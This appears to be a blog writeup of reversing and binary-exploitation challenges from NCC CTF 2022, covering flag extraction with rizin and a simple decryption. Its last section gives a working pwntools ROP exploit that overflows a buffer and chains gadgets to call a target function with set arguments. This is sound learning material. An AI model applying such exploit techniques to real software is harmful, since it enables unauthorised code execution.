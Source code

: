 ```yaml
---
title: "NCC CTF 2022 - Rev & BinExp Challenges Writeup"
author: "Signore"
date: 2022-07-20
summary: "Walkthrough of Reversing & Binary Exploitation challenges presented at NED Cyber Community CTF 2022"
description: ""
categories: ["CTF Writeups"]
tags: ["NCC CTF", "reversing", "rop",]
series: [""]
keywords: ["rev", "binary", "r2", "radare2", "rizin", "reverse engineering", "ghidra"]
ShowToc: true
cover:
  image: "images/cover-ncc-ctf-2022.png"
  caption: "cover"

---
```


:bulb: Rizin is a fork of radare2, one of the most popular reverse engineering tools.

## Reversing Warmup

We run `strings` on the binary and get our flag:

{{< terminal title="Terminal" >}}
![](chall-1.png)
{{< /terminal >}}

I later ran the binary, and it just gave the flag. Silly me!
{{< terminal title="Terminal">}}
![](chall-11.png)
{{< /terminal >}}
## Can You C Me

Running the binary asks us for correct password which we don't know yet.

Upon opening the binary with rizin, we can see our flag right there but it's scattered. We can also see another string which resembles a password.
{{< terminal title="Terminal" >}}
![](chall-20.png)
{{< /terminal >}}

Providing that password to the binary, we get our flag:
{{< terminal title="Terminal" >}}
![](chall-21.png)
{{< /terminal >}}

## Modulus Encryption

The flag for the challenge has been encrypted using the `encryption.py` python script and the generated output is the `output.txt` file. Our goal is to decrypt the flag.

The script is taking input data as `flag.txt`. The `encrypt` function gets the unicode code of each character present in the file with `ord()` and adds some integers to it. Then, it converts the characters back to ASCII with `chr()`.
{{< terminal title="Terminal" >}}
![](chall-30.png)
{{< /terminal >}}

We take the encrypted data `output.txt` as input. After getting the unicode, instead of adding, we modify the original technique a bit by subtracting the integers and then converting back to ASCII.

Upon running the modified script, we get the flag.
{{< terminal title="Terminal" >}}
![](chall-31.png)
{{< /terminal >}}

## Make it Go!

Running the binary asks us to enter password.

Opening the challenge file in `rizin`, we `seek` to `main` function and disassemble it. 
{{< terminal title="Terminal" >}}
![](chall-40.png)
{{< /terminal >}}

Going a bit down, we can see the `Enter_Password` string which is later being printed in the console with a `call` to `Fprint`:
{{< terminal title="Terminal" >}}
![](chall-41.png)
{{< /terminal >}}

Going futher down, we see there is the call to `Fscanln` which is taking user input. In the next instructions, there's a string comparison being made and then there is the `jne` (jump if not equal) instruction from which we can deduce that there's a condition being checked.

We can see that the user input is being compared to `0x45ea856`.
{{< terminal title="Terminal" >}}
![](chall-42.png)
{{< /terminal >}}

On providing the hex number to our binary, we get the flag:
{{< terminal title="Terminal" >}}
![](chall-43.png)
{{< /terminal >}}


## Pokemon Evolution

:bulb: [Here](http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf) is a nice resource for ROP.

We are given challege files as `pokemon_challenge.zip`. The binary prints out some ASCII art and asks us for input `Feed :`

We open the challenge binary in `cutter` (GUI for rizin). I have the decompiler plugin installed, so we navigate to `Decompiler` tab.

Along `main` and `register_name` functions, we can see another function `hacked`. In the decompiled code, we can see that an `if` condition is checking the function arguments. We can also see the values against which the params are being compared. Let's keep note of these values.

![](chall-50-cutter.png)

After trying random input lengths for quite a bit, the offset for RIP comes out to be `24`.
{{< terminal title="Terminal" >}}
![](chall-51.png)
{{< /terminal >}}

Now that we have RIP under control, we need to find the memory addresses of `hacked` funtion and ROP gadgets.

As we studied [here](http://localhost:1313/blog/posts/pwn-0x00-warmup/#03-architectures-comparison), if the binary was 32-bit, we could have just pushed the function arguments onto the stack. But, as our binary is 64-bit and arguments are being accessed through `registers`, we'll take the help of ROP gadgets to achieve our goal. 

We can find the memory address of the `hacked` function with gdb and ROP gadgets with `ropper`.

{{< terminal title="Terminal" >}}
![](chall-52-0.png)
{{< /terminal >}}
{{< terminal title="Terminal" >}}
![](chall-52-1.png)
{{< /terminal >}}

Putting it all together, our final exploit script looks like this:
{{< terminal title="VSCodium - exploit.py">}}
```py {linenos=true}
#!/usr/bin/python
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = './pokemon_evolve'
elf = context.binary = ELF(exe, checksec=False)

padding="A"*24
hacked_function_addr = 0x40119a
pop_rdi = 0x401196
pop_rsi = 0x401198

payload = flat(padding, pop_rdi, 0xdeadbeefdeadbeef,
    pop_rsi, 0xc0debabec0debabe, hacked_function_addr)

io = start()
io.recvuntil("Feed :")
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

On running the exploit, we successfully execute `hacked` function and bypass the conditional check by providing right arguments which, along with the beautiful dragon, returns the contents of `flag.txt`.
{{< terminal title="Terminal" >}}
![](chall-53.png)
![](chall-54.png)
{{< /terminal >}}

Since I did the challenge really late, the remote server wasn't responding anymore and I could pwn the binary locally only.

Initially, my exploit wasn't working and I was going mad about it.<br>
Later, @MoLover shared his exploit script with offset `24` while my exploit had `22`. Thanks to him, as soon as I changed the offset of RIP in my exploit it, eventually, worked!
